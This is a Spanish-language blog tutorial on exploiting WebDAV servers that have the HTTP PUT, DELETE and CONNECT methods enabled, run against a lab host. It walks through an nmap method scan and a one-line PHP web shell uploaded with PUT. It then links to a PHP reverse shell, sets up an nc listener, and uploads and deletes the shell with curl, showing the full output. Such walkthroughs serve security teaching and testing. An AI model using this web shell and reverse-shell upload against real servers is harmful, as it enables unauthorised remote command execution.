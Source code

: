 ```yaml
---
date: 2022-02-27T17:23:12.000Z
layout: post
comments: true
title: Explotación del método PUT, DELETE y CONNECT
subtitle: 'En HTTP'
description: >-
image: >-
  http://imgfz.com/i/0iKnB5f.gif
optimized_image: >-
  http://imgfz.com/i/0iKnB5f.gif
category: ciberseguridad
tags:
  - burpsuite
  - vulnerabilidad
  - http
  - exploit
  - ataque
  - Hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


Para entender este tipo de explotación es necesario conocer que realiza cada uno de estos métodos que lo hacen peligrosos si están habilitados:

* PUT: Puede ser utilizado para introducir archivos maliciosos, con el fin de obtener incluso ejecución remota de comandos o también subir hipervínculos que redirijan a las victimas a sitios web fraudulentos.
* DELETE: Puede ser utilizado para eliminar archivos importantes dentro del servidor web. Lo que provocaria una denegación de servicios (DoS) o perdida de información importante.
* CONNECT: Puede emplearse para tunelizar el tráfico "peer to peer" (P2P) sobre el tráfico HTTP. El atacante se podría aprovechar de esto ocultando el contenido del tráfico por el cual actuaría bajo un usuario autorizado y con el fin de eludir el firewall o autenticaciones.

Burp Suite es una herramienta en dónde cada solicitud HTTP realizada por su navegador se intercepta por un proxy previamente configurado. Con esto se pueden llegar a ver las peticiones que se realizan sobre el servidor web.

Comenzamos realizando un nmap para detectar los métodos disponibles, aunque igualmente se puede realizar con burp suite con OPTIONS:

```bash
┌─[root@kali]─[/home/user/demo/]
└──╼ nmap -p80 --script http-methods 10.1.1.9
Nmap scan report for 10.1.1.9
Host is up (0.00040s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-methods: 
|_  Supported Methods: GET POST HEAD CONNECT PUT DELETE OPTIONS

Nmap done: 1 IP address (1 host up) scanned in 1.11 seconds
```

Como se verifica que tenemos habilitado PUT, procedemos a interceptar con burp suite la página web y realizamos un test inicial con un simple archivo TXT para verificar que la vulnerabilidad se encuentre presente:

![archivotxt](http://imgfz.com/i/XrqLdZ7.png)

![davtxt](http://imgfz.com/i/7BshVRK.png)

Ahora se verifica el método DELETE:

![deletetxt](http://imgfz.com/i/XM596kf.png)

Como ya se comprobó que todo está funcional, procedemos a probar ejecución de comandos con la siguiente linea en php:

```php
<?php echo system($_REQUEST['cmd']); ?>
```

Esto se realiza de la siguiente forma:

![cmdphp](http://imgfz.com/i/Ot40GFm.png)

Como se subió de forma exitosa lo procedemos a abrir y ejecutar comandos:

![ver](http://imgfz.com/i/Y8ArG7f.png)

![cmd](http://imgfz.com/i/dgHaz34.png)

Funciona perfectamente, ahora como ya podemos realizar todo esto se intentará subir un [php malicioso](https://download1510.mediafire.com/fvfmudo0p5gg/a3i5v7urr7cp6gw/php-reverse-shell-1.0.tar.gz) para que nos devuelva un terminal interactivo por ```nc```:

Para esto nos ponemos a la escucha por el puerto que uno quiera:

```bash
┌─[root@kali]─[/home/user/demo/]
└──╼ nc -nlvp 443
```
Ahora procedemos a editar el .php cambiando los parámetros por nuestra IP y puerto:

![edit](http://imgfz.com/i/v3VozZH.png)

Una vez realizado esto lo subiremos por medio de curl:

```bash
┌─[root@kali]─[/home/user/demo/php-reverse-shell-1.0]
└──╼ curl http://10.1.1.9/dav/ --upload-file ./php-reverse-shell.php -v     
*   Trying 10.1.1.9:80...
* Connected to 10.1.1.9 (10.1.1.9) port 80 (#0)
> PUT /dav/php-reverse-shell.php HTTP/1.1
> Host: 10.1.1.9
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 5489
> Expect: 100-continue
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 Continue
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 201 Created
< Date: Sun, 27 Feb 2022 21:34:13 GMT
< Server: Apache/2.2.8 (Ubuntu) DAV/2
< Location: http://10.1.1.9/dav/php-reverse-shell.php
< Content-Length: 279
< Content-Type: text/html; charset=ISO-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /dav/php-reverse-shell.php has been created.</p>
<hr />
<address>Apache/2.2.8 (Ubuntu) DAV/2 Server at 10.1.1.9 Port 80</address>
</body></html>
* Connection #0 to host 10.1.1.9 left intact
```
Como se realizó de forma exitosa lo procedemos a ejecutar:

![revphp](http://imgfz.com/i/1NX9cjf.png)
![execphp](http://imgfz.com/i/lNVRG4a.png)
![ncphp](http://imgfz.com/i/TpBctnh.png)

Y funcionó perfectamente. Ahora borraremos el .php con curl:

```bash
┌─[root@kali]─[/home/user/demo/php-reverse-shell-1.0]
└──╼ curl -X DELETE http://10.1.1.9/dav/php-reverse-shell.php -v          
*   Trying 10.1.1.9:80...
* Connected to 10.1.1.9 (10.1.1.9) port 80 (#0)
> DELETE /dav/php-reverse-shell.php HTTP/1.1
> Host: 10.1.1.9
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 204 No Content
< Date: Sun, 27 Feb 2022 21:38:55 GMT
< Server: Apache/2.2.8 (Ubuntu) DAV/2
< Content-Length: 0
< Content-Type: application/x-httpd-php
< 
* Connection #0 to host 10.1.1.9 left intact
```
![delrevphp](http://imgfz.com/i/q0rVNAG.png)

Se borra correctamente. Y se demuestra la vulnerabilidad presente. 



